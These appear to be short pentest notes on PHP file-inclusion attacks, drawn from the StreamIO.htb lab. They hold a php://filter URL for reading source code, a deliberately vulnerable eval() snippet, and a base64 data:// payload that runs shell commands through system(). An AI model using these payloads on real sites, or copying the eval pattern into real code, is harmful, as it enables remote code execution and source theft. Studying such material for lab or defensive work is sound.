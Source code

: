 # If I have to deal with a php website:

### If you want to extract data / check for an LFI
Use php function/wrappers (filter for example) [LFI php hacktricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion#php-filter)

The following example is from StreamIO.htb it allow me to extract index.php:
```
https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=index.php
```
(you can fuzz the index.php with a wordlist)

###  RFI using [://data](https://book.hacktricks.xyz/pentesting-web/file-inclusion#data)

The target server run the following code

```php
<?php$
if(isset($_POST['include'])) {
	if($_POST['include'] !== "index.php" )
		eval(file_get_contents($_POST['include']));
	else
		echo(" ---- ERROR ---- ");
}
?>
```

In my post request I can use this include (with a base64 payload)
```
include=data://text/plain;base64,c3lzdGVtKCRfR0VUWydjbWQnXSk7
```



We can use phpinfo() and take a look at the disable_function to see what function are prohibited